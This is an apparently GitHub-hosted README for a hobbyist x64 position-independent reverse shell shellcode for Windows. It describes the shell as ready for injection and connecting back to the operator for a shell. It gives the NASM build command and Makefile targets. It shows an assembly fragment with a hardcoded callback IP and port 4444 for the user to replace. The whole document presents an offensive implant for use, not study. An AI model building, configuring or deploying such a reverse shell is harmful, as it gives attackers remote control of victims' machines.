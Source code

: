 # 🚀 x64 PIC Reverse Shell (BETA AF)

A **position-independent** reverse shell shellcode i put together for x64 systems. It works (tested on Windows 10), I built this sleep deprived and it's definitely a rough draft but expect cleaner code/docs soon.
---

### 🔥 Features (Kinda)
- Connects back to your IP/port for a shell
- PIC = Works anywhere in memory (in theory)
- Raw binary output ready for injection
---

## 👾 How to Build This Thing

**You’ll need:**
- A windows pc
- NASM installed
---

### Makefile Commands:
- `make all`: Compiles the source into a binary shellcode (`main.bin`).
- `make clean`: Deletes the compiled binary.

### Manual Build:
If you don’t want to use `make`, just do this:
```bash
nasm -f bin -g -O0 -o C:\Users\win10\Desktop\pic_implant\bin\main.bin src\main.asm
```

**Steps:**
1. **Edit `src/main.asm`**  
   Find these lines and replace with your IP/port:
   ```asm
       db "192.168.8.128", 0
       mov word [rsp+2], 0x5C11       ; ← 4444 (change this too)
  ```
